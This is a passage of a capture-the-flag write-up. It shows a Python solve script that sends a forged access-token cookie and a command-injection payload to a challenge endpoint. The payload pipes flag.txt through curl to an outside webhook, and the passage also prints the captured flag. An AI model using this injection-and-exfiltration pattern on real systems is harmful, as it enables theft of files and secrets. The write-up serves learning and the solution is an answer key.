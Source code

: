 ```python

# If the response includes a 'Set-Cookie' header, print it to check the access_token
if 'Set-Cookie' in response.headers:
    print(f"Set-Cookie Header: {response.headers['Set-Cookie']}")
```

Running `python gen.py` should give us the token

![get-token](/images/2024-09-02-11-03-04.png)

And it did! Let's now craft another script `solve.py` to retrieve the `flag.txt`

### `solve.py`

```python
import requests

# Replace these values with your actual values
access_token = 'ImFjY2Vzc19ncmFudGVkIg.ZtWNIQ.efPFQEBT8jNFoIlWVhjSeYC2Iuk'
feature_url = 'https://feature-unlocked-web.challs.csc.tf/feature'

# Text to be sent to the /feature endpoint for word count testing
text_body = 'This; cat flag.txt | curl -X POST -d @- https://webhook.site/ea19e1c2-91bb-469b-bfd4-8f3608541e56'

# Create the headers with the access token
headers = {
    'Cookie': f'access_token={access_token}'
}

# Create the payload with the text to be processed
data = {
    'text': text_body
}

# Make the POST request to the /feature endpoint
response = requests.post(feature_url, headers=headers, data=data)

# Print the response from the server
print(f"Status Code: {response.status_code}")
print("Response Content:")
print(response.text)
```

Running `python solve.py` should send a request to our webhook, and we should see the flag there.


![flag](/images/2024-09-02-11-06-34.png)

There we go~ flag is: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`

---

From this challenge, we learned the importance of:
